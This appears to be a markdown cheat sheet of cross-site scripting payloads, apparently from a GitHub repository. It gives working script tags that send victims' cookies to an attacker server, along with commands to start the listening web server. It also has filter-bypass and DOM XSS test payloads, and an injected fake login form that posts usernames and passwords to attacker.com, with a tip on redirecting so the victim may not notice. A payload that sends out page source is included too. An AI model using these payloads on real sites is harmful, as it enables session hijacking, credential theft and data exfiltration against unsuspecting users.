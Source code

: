 Steal Cookies
-----------------------
```
# Will not work if HttpOnly is in cookie header (modern browsers will block this)
# Use ruby SSL server or apache with SSL enabled for SSL connections
# Start Python Web Server
python -m SimpleHTTPServer 80
# Start PHP Web Server
php -S xxx.xxx.xxx.xxx:<port>
# Attack Script
<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```
Mouseover test
-----------------------
```javascript
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```

Use to test if script "<script>alert(123)</script>" tags are being blocked
-----------------------
```javascript
ackerokm7x<img src=a onerror=alert(1)>y09fr
ackerokm7x<img%20src=a%20onerror=alert(1)>y09fr
```

Testing for DOM based XSS
-----------------------
```
Modern browsers are not vulnerable? Must use Internet Explorer for proof of vuln.
Open Internet Explorer
Press F12
Select the "Emulation" tab
Select "Document Mode" "7" (Try other versions if one does not work)
Reload the page

The "#" symbol in this case means pass everything after it to the DOM
http://xxx.xxx.xxx.xxx/xss/example9.php#<script>alert(123)</script>
```


Submits credentials to the www.attacker.com (Embeds Login Screen inside application)
-----------------------
```
# php -S xxx.xxx.xxx.xxx:80
# or
# service apache2 start 
# tail -f /var/log/access.log

# Gets stuck on attackers page, do the following to resolve issue, victim may not notice the redirect :)
# In Apache, edit index.html to look like this 
# <meta http-equiv="refresh" content="0;url=https://victims.website.com/link-they-started-on/">

<h3>Please login to proceed</h3> <form action=http://www.attacker.com>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

Collect page source code (may contian sensitive data)
----------------------------
```
<script>new Image().src="https://www.attacker.com/bogus.php?output="+document.body.innerHTML</script>
```
